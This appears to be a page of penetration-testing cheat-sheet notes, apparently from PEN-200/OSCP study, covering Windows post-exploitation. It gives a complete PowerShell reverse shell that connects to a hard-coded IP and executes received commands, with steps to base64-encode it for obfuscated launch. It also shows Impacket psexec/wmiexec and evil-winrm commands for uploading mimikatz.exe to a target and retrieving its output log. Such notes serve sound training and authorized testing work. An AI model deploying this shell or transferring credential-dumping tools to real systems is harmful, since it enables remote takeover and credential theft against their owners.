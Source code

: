 



### ENCODING A PS CMD REV SHELL

Then follow the below cmds to encode it using powershell
```
$Text = '$client = New-Object System.Net.Sockets.TCPClient("192.168.45.207",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()' 
```
```
$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)
```
```
$EncodedText =[Convert]::ToBase64String($Bytes) 
```
```
$EncodedText
```



### Impacket tools
psexec and wmiexec are shipped with built in feature for file transfer. **Note**: By default whether you upload (lput) or download (lget) a file, it'll be writte in `C:\Windows` path. Uploading mimikatz.exe to the target machine:

```
C:\Windows\system32> lput mimikatz.exe [*] Uploading mimikatz.exe to ADMIN$\/ 
```
```
C:\Windows\system32> cd C:\windows C:\Windows> dir /b mimikatz.exe mimikatz.exe
```
Downloading mimikatz.log:
```
C:\Windows> lget mimikatz.log [*] Downloading ADMIN$\mimikatz.log
```

### EVIL-WINRM

Uploading files:
```
upload mimikatz.exe C:\windows\tasks\mimikatz.exe
```

Downloading files:
```
download mimikatz.log /home/kali/Documents/pen-200
```



## WINPEAS
cmd to add colour and prettify winpeas output 
```
REG ADD HKCU\Console /v VirtualTerminalLevel /t REG_DWORD /d 1
```
